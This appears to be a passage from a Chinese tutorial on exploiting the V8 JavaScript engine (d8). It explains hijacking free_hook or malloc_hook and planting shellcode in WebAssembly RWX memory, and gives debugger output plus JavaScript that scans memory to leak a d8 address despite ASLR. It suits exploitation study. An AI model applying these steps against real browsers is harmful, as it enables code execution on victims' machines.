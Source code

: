 > 通过堆漏洞能够实现一个任意地址写的效果
>
> 结合程序功能和UAF漏洞泄露出一个libc地址
>
> 通过泄露的libc地址计算出free_hook、malloc_hook、system和one_gadget的内存地址
>
> 利用任意地址写将hook函数修改为System或one_gadget的地址，从而实现shell的执行

因为我们在浏览器中，已经实现了任意地址读写的漏洞效果，因此这个传统的利用思路在v8中也同样适用。

另外，v8中还有一种被称之为webassembly即wasm的技术。通俗来讲，v8可以直接执行其它高级语言生成的机器码，从而加快运行效率。存储wasm的内存页是RWX可读可写可执行的，因此我们还可以通过下面的思路执行我们的shellcode：

> 利用webassembly构造一块RWX内存页
>
> 通过漏洞将shellcode覆写到原本属于webassembly机器码的内存页中
>
> 后续再调用webassembly函数接口时，实际上就触发了我们部署好的shellcode

下面分别讲解一下上述两种思路的利用流程。

## 传统的堆利用思路

在传统的堆利用中，通常有以下利用方式：

> 泄露libc地址修改free_hook为system
>
> 泄露libc地址修改free_hook、malloc_hook为one_gadget

我们已经通过漏洞实现了任意地址读写原语，那么传统利用方式的难点就在于如何泄露libc地址了。只要泄露了libc地址，后面的修改hook然后执行的思路就很容易实现了。

那如何泄露libc地址呢？下面具体讨论一下。在实践过程中，通过Google查询资料，自己总结出了两种泄露方式：随机泄露和稳定泄露。

### 1. 随机泄露

在gdb中用telescope命令查看会发现，在对象内存很远的地方会出现属于d8 binary空间的指令地址0x5637c71a45b0，再看一下这个指令所属内存页，确实属于d8二进制空间：

```assembly
pwndbg> vmmap 0x5637c71a45b0
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x5637c69d4000     0x5637c758a000 r-xp   bb6000 67b000 browser/x64.release/d8
pwndbg> x/gx 0x5637c71a45b0
0x5637c71a45b0 :    0x56415741e5894855
```

也就是说在很远很远的地方，一定会存储着d8二进制中的指令地址，虽然程序开启了ASLR，但d8中的指令地址并不是完全随机的。我们能够确定的是，无论ASLR怎么随机，0x5637c71a45b0这一条指令地址的低3字节肯定为5b0。

因此只要我们从当前对象的起始地址处开始向上低地址搜索，读取8字节内容，如果读取的8字节内容低三字节满足0x5b0这个条件，并且从这个内容为地址读取的内容如果为0x56415741e5894855，那么基本可以断定读取的这8字节即为d8中的指令地址了。

根据上述规律，写出泄露d8二进制汇总指令地址的JS代码，如下所示：

```assembly
var a = [1.1, 2.2, 3.3];
%DebugPrint(a);
var start_addr = addressOf(a);
var leak_d8_addr = 0n;
while(1){
    start_addr -= 0x8n;
    leak_d8_addr = read64(start_addr);
    if((leak_d8_addr & 0xfffn) == 0x05b0n && read64(leak_d8_addr) == 0x56415741e5894855n){
        console.log("[*] Success find leak_d8_addr: 0x" + hex(leak_d8_addr));
        break;
    }
}

console.log("[*] Done.");
```
